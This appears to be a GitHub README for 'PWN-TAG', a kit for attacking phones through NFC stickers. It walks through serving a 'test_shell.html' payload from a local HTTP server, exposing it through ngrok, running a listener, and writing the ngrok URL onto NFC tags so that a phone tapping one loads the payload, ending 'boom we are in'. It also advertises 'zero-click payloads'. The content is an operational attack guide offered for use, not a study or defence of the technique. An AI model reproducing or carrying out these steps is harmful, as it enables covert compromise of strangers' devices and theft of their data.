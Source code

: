 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 

nfc tag stickers about $10 for 25 >

## Branches

| Branch Name      | Purpose                        |
|------------------|--------------------------------|
| `main`           | Free-tier version (no ngrok subdomain) |
| `ngrok-pro`      | For users with a paid ngrok plan – allows zero-click payloads |

https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```

## imbed NFC tag with url:

open nfc writer app

-choose write

-add record

-choose url

-place ngrok link "https://f6xd-3301-602...ngrok-free.app/payloads/test_shell.html"

-write

now just place your phone near the tag and boom we are in
---
---
## H^3 hope all is well homies




